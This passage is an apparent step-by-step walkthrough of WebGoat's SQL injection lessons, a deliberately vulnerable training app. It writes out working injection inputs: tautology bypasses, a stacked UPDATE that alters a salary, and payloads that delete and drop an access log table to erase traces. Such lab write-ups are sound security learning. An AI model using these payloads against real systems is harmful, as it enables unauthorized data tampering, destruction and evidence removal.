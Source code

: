- Try to SQL Inject the User Id by entering the following values.
	- Login_Count: `0`
	- User_Id: `0 or 1 = 1`
	- You should see the message "Succeeded"

- Go to Page 11 and read the instructions
![[Pasted image 20220730011810.png]]
- Try to SQL Inject the Employee Name by entering the following values.
	- Employee Name: `a' or '1' = '1`
	- Authentication TAN : `3SL99A`
	- You get a message that you only retrieved one record.

- Try to SQL Inject both the Employee Name and Authentication TAN.
	- Employee Name: `a' or '1' = '1`
	- Authentication TAN : `3SL99A' or '1' = '1`
	- You should see the message "Succeeded."

- Go to Page 12. Read the instructions.
![[Pasted image 20220727140946.png]]
- Find the salary for John Smith.
	- Employee Name: `Smith`
	- Authentication TAN : `3SL99A`
	- John Smith’s record is returned.

![[Pasted image 20220730012331.png]]

- SQL Inject the Authentication TAN and chain another `UPDATE` statement to update John Smith’s salary to a high figure.
	- Employee Name: `Smith`
	- Authentication TAN : `3SL99A'; UPDATE employees SET salary=100000 where userid='37648`
	- You should see the message “Well done”.

- Go to Page 13. Read the instructions.
![[Pasted image 20220730012405.png]]
-  Enter “update” as the Action and click **Search log**
- The `UPDATE` statement that you ran to update John Smith’s salary is displayed.
![[Pasted image 20220730012446.png]]
- Use SQL Injection to `DELETE` all records from the `access_log` table.
	- Action contains : `UPDATE '; DELETE FROM access_log --`

- You get the advice to remove the whole table.
![[Pasted image 20220730012625.png]]

- Try to drop the `access_log` table.
	- Action contains : `UPDATE '; DROP TABLE access_log --`
	- You should see the message “Success”.

### Injection Flaws - SQL Injection (advanced)

#### SQL Injection with UNION
- In WebGoat, expand “SQL Injection Flaw”. Select SQL Injection (advanced).
- Read the instructions on Page 1 and 2.
-  Go to page 3.
![[Pasted image 20220730013032.png]]
-  Try to SQL Inject the Name field by entering the following.
	- Name : `a' or 1=1 --`
